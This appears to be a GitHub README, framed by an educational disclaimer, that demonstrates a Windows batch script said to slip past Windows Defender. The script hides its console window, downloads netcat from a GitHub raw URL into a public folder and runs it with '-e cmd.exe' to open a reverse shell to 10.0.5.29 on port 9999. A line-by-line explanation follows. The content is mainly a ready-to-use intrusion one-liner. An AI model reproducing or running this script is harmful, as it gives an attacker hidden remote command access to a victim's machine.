 # Bypassing-Windows-Defender-for-fun
Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in.
Let’s take a look at the script we are using.
`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :
`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1188ce4d-34c9-4d61-91d8-227485c9936f)

